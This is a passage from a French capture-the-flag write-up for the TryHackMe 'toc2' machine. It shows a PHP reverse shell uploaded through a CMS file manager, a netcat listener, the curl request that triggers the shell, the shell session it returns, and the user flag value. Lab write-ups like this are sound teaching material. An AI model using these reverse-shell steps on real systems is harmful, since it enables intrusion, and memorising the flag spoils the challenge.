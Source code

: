 ![page4](./Task1-04.png)     
Dans content -\> File Manager on téléverse notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port 1234 pour se connecter au reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://toc2.thm/cmsms/uploads/php-reverse-shell.php
```

**Find and retrieve the user.txt flag**

On lance le shell.   

```bash
im@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.79.41] 52302
Linux toc 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:58:10 up  1:45,  0 users,  load average: 1.54, 1.67, 1.64
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home/
frank
$ cat /home/frank/user.txt
thm{63616d70657276616e206c696665}
```

On trouve un utilisateur frank.   
On lit le fichier user.txt.    
On a notre flag.   
